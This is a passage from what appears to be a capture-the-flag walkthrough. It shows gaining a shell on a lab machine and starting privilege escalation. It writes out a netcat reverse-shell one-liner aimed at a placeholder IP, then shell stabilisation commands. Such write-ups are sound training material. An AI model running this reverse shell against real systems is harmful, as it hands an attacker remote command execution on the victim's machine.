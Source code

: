 ```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc IP 9001 >/tmp/f
```


You can use any other reverse shell, once we send the command, we notice this:

![Pasted image 20250408131435.png](../../IMAGES/Pasted%20image%2020250408131435.png)

We can begin privilege escalation.


# PRIVILEGE ESCALATION
---


Let's stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![Pasted image 20250408131704.png](../../IMAGES/Pasted%20image%2020250408131704.png)

We can notice this at `/var/www/html`:

![Pasted image 20250408132425.png](../../IMAGES/Pasted%20image%2020250408132425.png)

There's something called `key_rev_key`, if we check the strings of it:

![Pasted image 20250408132450.png](../../IMAGES/Pasted%20image%2020250408132450.png)
